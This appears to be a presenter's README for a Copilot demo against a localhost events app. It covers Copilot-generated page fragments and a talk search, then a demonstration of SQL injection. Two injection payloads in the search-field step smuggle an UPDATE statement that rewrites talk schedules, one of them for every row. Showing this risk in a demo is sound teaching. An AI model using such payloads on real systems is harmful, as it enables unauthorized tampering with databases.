 ## CoPilot Demo

1. Launch the app, browse to: http://localhost:8080
2. set up the index page

// insert a header fragment
// insert the eventsTable fragment

3. Add search functionality

In `SearchRepository.searchTalk`:

// lowercase the input
// create a query to search for the input in the description and title of the talk
// return the result of the query

In the app: show that the search field works

4. Demonstrate SQL injection

In the app, put this in the search field:

```sql
%'; update talk set start_date = CURRENT_TIMESTAMP, end_date = dateadd(hour,1,CURRENT_TIMESTAMP) where id = 1; --
```

NOTE: replace the talk id with the one for the presenter

OR

```sql
%'; update talk set start_date = CURRENT_TIMESTAMP, end_date = dateadd(hour,1,CURRENT_TIMESTAMP) --
```